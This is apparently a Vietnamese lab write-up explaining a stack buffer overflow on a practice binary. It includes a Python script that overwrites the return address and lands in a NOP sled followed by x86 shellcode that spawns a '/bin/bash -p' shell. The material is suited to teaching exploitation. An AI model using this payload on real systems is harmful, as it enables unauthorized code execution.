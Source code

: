 ![alt text](image-8.png)
![alt text](image-9.png)

Có thể thấy return address được lưu ở ngăn nhớ có địa chỉ `0xbffff78c`, vậy theo ý tưởng như trên thì ta sẽ chèn shellcode ở địa chỉ `0xbffff790` và ghi đè return address bởi địa chỉ này. Tuy nhiên khi chạy chương trình bằng gdb và khi chạy bình thường địa chỉ của ngăn nhớ sẽ có 1 chút khác nhau (do kích thước các biến môi trường khác nhau) nên mình sẽ sử dụng lệnh `nop`, sau đó thêm shellcode và điều chỉnh sao cho địa chỉ mình ghi đè sẽ rơi vào khoảng có lệnh `nop` (nop slide)

```py
import struct
buf = '\x90' * 76
new_ret = struct.pack("I", 0xbffff790 + 50)
nop_slide = '\x90' * 100
shellcode = '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
print(buf + new_ret + nop_slide + shellcode)
```
